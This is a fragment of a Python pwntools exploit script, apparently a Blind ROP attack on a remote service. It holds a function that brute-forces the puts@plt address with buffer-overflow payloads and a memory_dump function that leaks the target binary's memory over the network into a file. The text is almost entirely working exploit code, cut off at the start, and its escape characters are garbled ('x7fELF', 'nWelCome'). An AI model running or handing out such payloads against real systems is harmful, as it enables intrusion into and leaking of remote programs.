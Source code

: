 ```python
	p = log.progress('Searching for the address of puts@plt')
	for offset in range(0x0,0x1000):
		addr = base + offset

		if addr % 0x100==0:
			log.info('Progressed to 0x%x' % offset)
		
		payload = 'a'*size
		payload += p64(rdi_ret)
		payload += p64(0x400000)
		payload += p64(addr)
		payload += p64(stop_gadget)

		r = remote(ip,port,level='error')
		r.recvline()
		r.sendline(payload)
		try:
			recv = r.recv(timeout=0.2)
			print(recv)
			if recv.startswith('x7fELF'):
				p.success('Done')
				log.success('find puts@plt addr: 0x%x' % addr)
				return addr
			r.close()
		except Exception as e:
			r.close() 

def memory_dump(size,stop_gadget,rdi_ret,puts_plt):
	now = base
	end = 0x401000
	dump = ""

	p=log.progress('Memory dump')
	while now < end:
		#print(hex(now))
		if now % 0x100==0:
			log.info('Progressed to 0x%x'%now)

		payload = 'A'*size
		payload += p64(rdi_ret)
		payload += p64(now)
		payload += p64(puts_plt)
		payload += p64(stop_gadget)

		r = remote(ip,port,level='error')
		r.recvline()
		r.sendline(payload)
		data = r.recv(timeout=0.5)
		r.close()
		try:	
			data = data[:data.index('nWelCome')]
		except ValueError as e:
			data = data

		if len(data)==0:
			data='x00'
		dump += data
		now += len(data)

	with open('memory.dump','wb') as f:
		f.write(dump)

	p.success('Done')
```
